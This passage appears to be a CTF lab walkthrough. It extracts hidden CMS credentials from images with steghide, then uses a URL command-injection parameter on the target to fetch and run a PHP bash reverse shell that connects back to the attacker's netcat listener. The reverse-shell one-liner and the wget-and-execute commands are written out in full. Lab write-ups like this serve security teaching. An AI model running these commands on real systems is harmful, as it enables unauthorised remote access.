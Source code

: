 - Noice! That's something, when I checked `bit.ly/2TvYQ2S` it redirected me to Stego Wiki page `https://en.wikipedia.org/wiki/Stegosauria`. With message telling me that credentials are hidden on main page I moved back to it and downloaded my boi Stego image.

- Let's see if `steghide` can extract anything. Passphrase is the password from the message that I already found: `u?WtKSraq`.

  ```
  steghide --extract -sf stego.jpg
  Enter passphrase: 
  wrote extracted data to "creds.txt".
  
  u?WtKSraq -> passphrase
  
  cat creds.txt 
  Hehe. Gotcha!
  
  You're on the right path, but wrong image!
  ```

- OK, cool, I'm on the right path, so I did the same thing with jackinthebox image but found nothing. Luckily header image gave me everything I need for further exploitation.

  ```
  steghide --extract -sf header.jpg      
  Enter passphrase: 
  wrote extracted data to "cms.creds".
  
  cat cms.creds 
  Here you go Jack. Good thing you thought ahead!
  
  Username: jackinthebox
  Password: TplFxiSHjY
  ```

- Let's login with those credentials and look for flags!

---

## ⚙️ Shell Access

- So, when I logged in to the web page, I saw a message from Future-Jack: `GET me a 'cmd' and I'll run it for you Future-Jack. `. You can execute commands from URL! Let's test it.

  ```
  http://10.10.153.24:22/nnxhweOV/index.php?cmd=whoami

  GET me a 'cmd' and I'll run it for you Future-Jack. www-data www-data
  ```
  
- Successfull, now let's upload a shell and run it. I made this PHP one liner and started a listener. After uploading shell, just run it and you will get connection with netcat. Start a HTTP server with Python so you can move the shell to target's page.

  ```
  nano shell.php
  <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1'");

  python3 -m http.server 80

  http://10.10.153.24:22/nnxhweOV/index.php?cmd=wget http://[YOUR-THM-IP]:80/shell.php -O /tmp/shell.php
  http://10.10.153.24:22/nnxhweOV/index.php?cmd=php /tmp/shell.php

  nc -lvnp 4444                                                                 
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.153.24] 40890
  bash: cannot set terminal process group (707): Inappropriate ioctl for device
  bash: no job control in this shell
  ```